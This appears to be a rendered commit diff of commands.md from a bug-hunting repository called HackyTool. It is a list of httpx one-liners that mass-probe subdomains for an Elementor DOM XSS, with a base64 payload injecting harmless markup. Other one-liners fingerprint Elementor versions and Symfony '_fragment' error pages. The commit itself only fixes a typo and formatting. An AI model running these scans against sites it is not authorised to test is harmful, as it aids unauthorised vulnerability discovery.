

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/commands.md
+++ b/commands.md
@@ -49,8 +49,9 @@
 ## Elementor Xss
     cat subs.txt | httpx -path "#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8aDE+YWtpcmE8L2gxPiJ9" -ms <h1>akira</h1> -o elementorXss.txt -t 200
 
-    cat subs.txt | httpx -path "wp-content/plugins/elementor/readme.txt" -ms "Stable tag: 3." -o elemntor.txt
-    ## Symphonic
+    cat subs.txt | httpx -path "wp-content/plugins/elementor/readme.txt" -ms "Stable tag: 3." -o elementor.txt -t 200
+
+## Symphonic
     cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
 
 ## Open Redirect
```
